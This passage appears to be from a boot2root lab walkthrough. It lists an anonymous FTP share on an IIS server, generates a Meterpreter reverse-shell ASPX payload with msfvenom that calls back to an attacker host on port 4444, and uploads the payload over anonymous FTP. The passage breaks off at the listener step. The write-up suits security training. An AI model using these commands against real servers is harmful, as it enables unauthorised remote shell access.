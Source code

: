 
### Whats on the FTP server?

    ftp> ls
    200 Port command successful
    150 Opening data channel for directory listing of "/"
    drwxr-xr-x 1 ftp ftp              0 Nov 13  2017 aspnet_client
    -rw-r--r-- 1 ftp ftp             89 Nov 13  2017 hello.aspx
    -rw-r--r-- 1 ftp ftp             96 Nov 13  2017 index.html


### ASP.NET probe

It looks like the web server (IIS on Windows) is configured to run aspx (ASP.NET) server side code. Verify this by visiting [http:192.168.0.102/hello.aspx](#) in a browser. Confirmed.


### Create an ASPX reverse shell payload using MSFVenom

    root@kali:~/boot2root# msfvenom -p windows/meterpreter/reverse_tcp -f aspx LHOST=192.168.0.99 LPORT=4444 -o     rshell.aspx
    No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    No Arch selected, selecting Arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 333 bytes
    Final size of aspx file: 2773 bytes
    Saved as: rshell.aspx


### Upload payload via anon FTP

    root@kali:~/boot2root# ftp 192.168.0.102
    Connected to 192.168.0.102.
    220-FileZilla Server 0.9.60 beta
    220-written by Tim Kosse (tim.kosse@filezilla-project.org)
    220 Please visit https://filezilla-project.org/
    Name (192.168.0.102:root): anonymous
    331 Password required for anonymous
    Password:
    230 Logged on
    Remote system type is UNIX.
    ftp> lcd ~/boot2root
    Local directory now /root/boot2root
    ftp> put rshell.aspx
    local: rshell.aspx remote: rshell.aspx
    200 Port command successful
    150 Opening data channel for file upload to server of "/rshell.aspx"
    226 Successfully transferred "/rshell.aspx"
    335 bytes sent in 0.00 secs (7.4298 MB/s)



### Setup a listener to catch the reverse shell on port 4444
